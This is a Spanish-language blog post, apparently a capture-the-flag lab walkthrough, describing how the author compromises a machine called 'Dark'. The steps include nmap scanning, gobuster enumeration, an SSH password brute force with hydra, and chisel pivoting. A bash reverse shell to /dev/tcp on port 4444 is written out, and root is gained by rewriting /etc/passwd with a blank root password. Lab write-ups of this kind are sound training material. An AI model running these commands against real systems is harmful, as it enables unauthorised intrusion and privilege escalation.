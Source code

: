 ```yaml
---
layout: page
title:  "Dark!"
date:    2024-11-30 14:14:17 -0503
categories: Pentesting
---
```

iniciamos la maquina 

![[Pasted image 20241128143740.png]](/imagenes/Pasted%20image%2020241128143740.png)

escaneamos los puertos con nmap `nmap -p- --open -sCSV -vvv -Pn -n --min-rate 5000 10.10.10.0/24`

![[Pasted image 20241128143914.png]](/imagenes/Pasted%20image%2020241128143914.png)

entramos en el navegador 

![[Pasted image 20241128144002.png]](/imagenes/Pasted%20image%2020241128144002.png)

usamos gobuster para buscar directorios `gobuster dir -u "http://10.10.10.2/" -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt`

![[Pasted image 20241128144211.png]](/imagenes/Pasted%20image%2020241128144211.png)

encontramos algo interesante llamado info buscamos en el cuadro de busqueda la ruta info 

![[Pasted image 20241128144306.png]](/imagenes/Pasted%20image%2020241128144306.png)

encontramos un posible usuario y usamos hydra para encontrar la contrasena `hydra -l toni -P /usr/share/wordlists/rockyou.txt ssh://10.10.10.2 -t 10`

![[Pasted image 20241128144433.png]](/imagenes/Pasted%20image%2020241128144433.png)

entramos por ssh 

![[Pasted image 20241128144531.png]](/imagenes/Pasted%20image%2020241128144531.png)

desde la maquina atacante `chisel server --reverse -p 1234`; con este comando montamos un servidor en nuestra maquina atacante para que desde la maquina victima se pueda descargar el chisel `python3 -m http.server 80`


![[Pasted image 20241128144914.png]](/imagenes/Pasted%20image%2020241128144914.png)



usamos chisel para hacer pivoting con la maquina 20.20.20.3 que encontramos en info  con este comando descargamos chisel 
`curl -L http://172.0.1/chisel_1.10.1_linux_amd64 -o chisel` le damos permisos de escritura con el comando `chmod +x chisel` y corremos el chisel en modo cliente desde la maquina victima 


![[Pasted image 20241128144657.png]](/imagenes/Pasted%20image%2020241128144657.png)

ya con la conexion agregamos el proxi usamos foxyproxy

![[Pasted image 20241128145158.png]](/imagenes/Pasted%20image%2020241128145158.png)

vamos al navegador con la nueva direccion 20.20.20.3 

![[Pasted image 20241128145258.png]](/imagenes/Pasted%20image%2020241128145258.png)

probamos si se puede ejecutar codigo usamos id 

![[Pasted image 20241128145343.png]](/imagenes/Pasted%20image%2020241128145343.png)

asi que nos enviamos una revershell con el comando `bash -c 'bash -i >& /dev/tcp/20.20.20.2/4444 0>&1'` en la maquina atacante nos colocamos en escucha en el puerto 4444

![[Pasted image 20241128150246.png]](/imagenes/Pasted%20image%2020241128150246.png)

estando dentro le damos el tratamiento tty 
`script /dev/null -c bash`
`Control + z`
`stty raw -echo;fg`
`reset xterm`
`export TERM=xterm`
`export SHELL=bash`

![[Pasted image 20241128145714.png]](/imagenes/Pasted%20image%2020241128145714.png)

nos copiamos el contenido de /etc/passwd en el directorio tmp con el codigo `cp /etc/passwd /tmp/passwd`

![[Pasted image 20241128145849.png]](/imagenes/Pasted%20image%2020241128145849.png)

se modifica el contenido borrando la x en root para no tener la necesidad de una contrasena y luego se actualiza el archivo passwd en etc desde el archivo passwd tmp `curl file:///tmp/passwd -o /etc/passwd` verificamos que se hizo el cambio  `cat /etc/passwd`

![[Pasted image 20241128150102.png]](/imagenes/Pasted%20image%2020241128150102.png)

listo nos hacemos root 

![[Pasted image 20241128150210.png]](/imagenes/Pasted%20image%2020241128150210.png)



